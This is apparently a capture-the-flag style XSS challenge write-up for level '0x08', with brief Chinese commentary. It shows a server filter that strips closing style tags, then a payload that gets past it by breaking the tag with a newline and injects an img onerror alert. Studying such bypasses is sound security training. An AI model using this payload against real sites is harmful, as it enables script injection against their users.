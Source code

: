 # 0x08

## server code:

```
function render (src) {
  src = src.replace(/<\/style>/ig, '/* \u574F\u4EBA */')
  return `
    <style>
      ${src}
    </style>
  `
}
```

## 分析:

```
过滤了</style>的大小写。如果输入了</style>会被替换成/* 坏人 */。通过换行绕过<style>即可。
```

## input code:

```
1. 
</style
       ><img src='' onerror=alert`1`>

```

## html:

```
1. <style>
      </style
       ><img src='' onerror=alert`1`>
    </style>

```
